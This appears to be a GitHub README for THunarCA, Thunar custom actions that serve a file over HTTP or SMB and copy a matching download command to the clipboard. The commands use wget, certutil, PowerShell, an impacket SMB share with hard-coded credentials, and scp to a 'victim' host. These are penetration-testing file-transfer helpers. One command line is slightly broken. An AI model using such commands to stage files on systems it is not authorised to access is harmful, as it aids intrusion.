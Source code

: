 # THunarCA
this is just a simple custom action that are useful with thunar 



#Sharing Files 

### http sharing -linux : 
  ```
     echo "wget 'http://$(vselector ip)/$(echo %N | sed "s/'//g")'" | xclip -selection clipboard ; x-terminal-emulator -e "python3 -m http.server 80"
  ```
### http sharing -windows cmd : 
  ```

 echo  "certutil -urlcache -f 'http://$(vselector ip)/$(echo %N | sed "s/'//g")' '$(echo %N | sed "s/'//g")'" | xclip -selection clipboard ; x-terminal-emulator -e "python3 -m http.server 80"
```
### http sharing -windows powershell : 
  ```


  echo "Invoke-WebRequest -Uri 'http://$(vselector ip)/$(echo %N | sed "s/'//g")' -OutFile '$(echo %N | sed "s/'//g")'" | xclip -selection clipboard ;  -e "python3 -m http.server 80"
```

### smb sharing -windows : 
```
echo "copy '\\\\$(vselector ip)\\share\\$(echo %N | sed "s/'//g")'" | xclip -selection clipboard ; x-terminal-emulator -e "sudo impacket-smbserver share -smb2support '%d'"
```

### smb sharing -windows -password 
```
echo "net use n: \\\\$(vselector ip)\\\share /user:wiwsmb wiwsmb && copy 'n:\\$(echo %N | sed "s/'//g")'" | xclip -selection clipboard ; x-terminal-emulator -e "sudo impacket-smbserver share -smb2support '%d' -user wiwsmb -password wiwsmb"
```

### SSH sharing 
```
echo "scp  %f $(vselector victim)@$(vselector target):/tmp/" |  xclip -selection clipboard
```
**Note : if you want to integrate variable into your custom action use [vselector script](https://github.com/bwiko/THunarCA/tree/main/scripts) just add the variable into the json file and put it under `/bin/`**
